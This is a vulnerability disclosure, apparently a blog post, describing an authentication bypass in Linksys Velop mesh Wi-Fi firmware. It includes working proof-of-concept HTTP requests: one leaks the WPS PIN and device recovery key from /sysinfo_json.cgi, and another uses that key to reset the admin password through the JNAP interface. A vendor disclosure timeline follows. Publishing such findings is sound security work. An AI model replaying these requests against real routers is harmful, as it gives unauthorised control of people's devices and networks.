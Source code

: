 ```yaml
---
published: false
categories: [vulnerability,Linksys]
---
```


## Linksys Velop Authentication Bypass


### Affected Software
Firmware version:	Before 1.1.8.192419
### Product Background
Velop is WHOLE HOMEMESH Wi-Fi system from LINKSYS. It allows users enjoy fast, nonstop Wi-Fi everywhere with Velop’s modular easy-to-use Wi-Fi Mesh system.
There are three categories from their official site :WHW0303,WHW0302,WHW0301. The differences between these three is the pack count: 1, 2 or 3. The system is the same.
### Vulnerability Details
During our analysis, we found a critical bug in its firmware and this vulnerability may allow an unauthenticated user get administrator privilege. The problem is caused by the API of **/sysinfo_json.cgi**, requesting this url will leak sensitive information and may lead to authentication bypass.
#### PoC
We could get some useful information from the PoC below:
~~~http
GET /sysinfo_json.cgi HTTP/1.1
Host: 10.158.1.1
Accept: application/json; charset=UTF-8
Expires: Fri, 10 Oct 2015 14:19:41 GMT
Accept-Encoding: gzip, deflate
Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
Cache-Control: no-cache
Content-Type: application/json; charset=UTF-8
User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
Connection: close
~~~

~~~http
HTTP/1.1 200 OK
Connection: close
CONTENT-LANGUAGE: en
Date: Thu, 11 Oct 2012 11:09:15 GMT
Server: lighttpd/1.4.39
Content-Length: 94710

siSections="MfgData,BootData,Syscfg,Sysevent,Messages,Dmesg,Ps,MemoryInfo,CpuInfo,WifiBasicInfo,WifiRadioInfo,WifiClientInfo,WifiPoorClientInfo,WifiLegacyClientInfo,WifiAllAPInfo,WifiSameAPInfo,WifiAllCAInfo,WifiMyCAInfo,IPInfo,PingInfo,Conntrack,ConntrackTotals,ConntrackAvg,Thrulay";
var MfgData = {
 "title": "Manufacturer Data",
 "description": "This is used to manufacturer unit and in SKU API",
 "timestamp": "16:01:02.12/31/69",
 "data": [
{
.......
 "wps_pin": "wps_device_pin = 58163597",
.......
"device_recovery_key": "84667",
.......
 }
 ]
};
......
~~~
The most important value we can get is WPS PIN and Device Recovery Key. For the WPS PIN, we can use it to connect to the wifi even if the wifi password is changed when wps is enabled. Recovery key can be used to reset the admin password, we may construct the following request to change the admin password:
~~~http
POST /JNAP/ HTTP/1.1
Host: 192.168.1.1
Accept: application/json; charset=UTF-8
Expires: Fri, 10 Oct 2015 14:19:41 GMT
Accept-Encoding: gzip, deflate
Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
Cache-Control: no-cache
Content-Type: application/json; charset=UTF-8
Content-Length: 48
User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
Connection: close
X-JNAP-Action: http://linksys.com/jnap/nodes/setup/SetAdminPassword

{"resetCode":"84667","adminPassword":"test1234"}
~~~
### Timeline
We reported the bug to the vendor in Feb,2019 and they finally released a patch in August:

~~~text
25 Feb 2019 03:07:55 UTC: We submitted the problem to vendor
26 Feb 2019 20:55:22 UTC: The vendor acknowledged the problem and reproduced it.
31 May 2019 12:39:01 UTC: We asked if there is any updates. No response
06 Jun 2019 03:42:03 UTC: We asked if there is any updates. 
06 Jun 2019 04:41:23 UTC: The vendor reply as: Apologies for the delay in response; the engineering team informs me that a firmware release for Velop will be released later this month. Would you like a preview of this firmware to confirm our fix?
06 Jun 2019 08:28:51 UTC: We replied : No.
25 Jul 2019 00:44:31 UTC: We asked for any updates. No response.
26 Jul 2019 18:22:12 UTC: The vendor replied: We are starting a limited rollout of the release starting tonight and if all goes well, the full release will be opened up in the first week of August. Thank you!
21 Aug 2019 03:38:42 UTC: We asked if there is any updates
23 Aug 2019 21:01:30 UTC: The vendor replied as :We have finally released a fix to address this issue: https://www.linksys.com/us/support-article?articleNum=207568. We have not applied for a CVE and do not have any plans to do so. Thank you!
26 Aug 2019 00:38:08 UTC: We asked we will apply a CVE for this issue
27 Aug 2019 17:23:51 UTC: The vendor replied as :we have no objections if you'd like to file for a CVE.
~~~